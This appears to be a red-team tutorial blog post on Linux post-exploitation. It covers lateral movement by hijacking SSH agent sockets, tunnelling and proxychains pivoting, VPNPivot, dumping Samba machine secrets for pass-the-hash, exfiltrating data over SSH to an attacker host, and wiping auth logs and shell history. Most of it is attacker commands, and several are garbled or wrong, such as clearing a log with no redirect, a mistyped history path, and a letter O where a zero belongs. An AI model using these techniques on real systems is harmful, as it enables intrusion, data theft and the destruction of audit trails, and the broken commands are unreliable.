 ```yaml
---
layout: post
published: true
title: Linux Post Exploitation 10.4
tags:
  - PWP
  - Intermediate
  - Linux Post Exploitation
comments: true
---
```

## Linux Lateral Movement And Exfiltration. 

## Introduction

**_In this blog post we will discuss, Linux lateral movements, Data Exfiltration, covering tracks._**


**Lateral Movement**

Its a technique to move around in a network in search of data or assets to exfiltrate and gain access to multiple target assets.


**SSH Hijacking**

For this method to be successful, the compromised machine should have an active SSH session established to another machine via Public Key Authentication.

```
# Attacker finds the SSHd process of the victim
ps uax|grep sshd
``
``
# Attacker looks for the SSH_AUTH_SOCK on victim's environment variables
grep SSH_AUTH_SOCK /proc/<pid>/environ
``
`` 
# Attacker hijack's victim's ssh-agent socket
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l
``
`` 
# Attacker can log in to remote systems as the victim
ssh remote_system -l victim
```

[Click here to know more about it](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)


**SSH Tunneling**

It is used to port forward the attacker machine to access internal assets

Local port forwarding on port 8080 through SSH TUNNEL from attacker session to another machine.

``
sudo ssh  -L 127.0.0.1:8080:192,168.1,118:8080 user@<targetIP>
``
Remote forward on 8080 , forward to the attacker on 443

``
sudo ssh -R8080:127.0.0.1:443 user@<targetip>
``

**sshuttle** is an alternative for ssh tunneling

``
https://github.com/sshuttle/sshuttle
``

**Proxy chaining**

proxychains - redirect connections through proxy servers

To configure ProxyChains, we simply edit the main configuration file (/etc/proxychains.conf) and add our SOCKS4 proxy to it
we will append following line proxychains.conf file

``
socks4 127.0.0.1 1337
``
``
ssh -D1337 root@2.2.2.2 (For dynamic tunneling)
``

In a separate terminal run:
``
proxychains nmap -A -p- <10.10.10.139>
``
And you will be able to use nmap with proxychains to scan any internal host. Proxychains tunneling used to discover internal host services and internal networks.

**VPNPivot**
VPN Pivot sends and receives a fully encrypted TCP/IP stack over TCP stream socket, then the peers forward it into the desired device/host. The attacker explores the internal network as he belongs to it within a local IP address taken from the DHCP server or statically configured.

Installation

```
# git clone https://github.com/0x36/VPNPivot.git

cd VPNPivot

./autogen.sh

./configure

 make && make install
```
**Usage:**
``
./src/pivotc <server IP> <server port> <locale IP> [MTU]
``
```
The options are :

    server IP: the IP address of the server (pivots)
    
    server port: the port which the server is listening on
    
    locale IP: the IP address of the network interface connected to the unreachable network.
    
    MTU: the MUT is optional unless you're changing it in pivots
```




**Samba system secrets to take over domain admin**

``
tdbdump /var/lib/samba/private/secrets.tdb
``
If we get NTLM hash for any machine in the domain we can compromise it using pass the hash technic.

I will explain pass the hash in the upcoming blog post.


**Data Exfiltration**

Exfiltration of sensitive data from the target machine, and owning that data to see severity.

There are many techniques to move data from the target machine to attacker machine


** Using SSH**

Start nc listner in attaker machine

``
nc -nlvp 80 > Targetdata.tmp
``

In target machine

``
tar zcf - /tmp/datafolder | ssh root@<attackerIP> "cd /tmp; tar zxpf -"
``
 
**

## Cover tracks

Washing hands, after did a sin. 

Clear auth.log file
``
echo "" /var/log/auth.log
``
Clear current user bash history
``
echo "" -/.bash history
``
Delete .bash_history file
``
rm -/.bash histor/ -rf
``
Clear current session history
``
history -c
``
Set history max lines to 0
``
export HISTFILESIZE=O
``
Set history max commands to 0
``
export HISTSIZE=O
``
To kill current session
``
kill -9 $$
``
To permanently send all bash history commands to /dev/null
``
ln /dev/null -/.bash_history -sf
``


There are many other techniques also, you can check them yourself and keep practice.

## Conclusion

_**In this blog post we discussed some lateral movement and data exfiltration techniques, we will discuss persistence in upcoming red team series.**_










































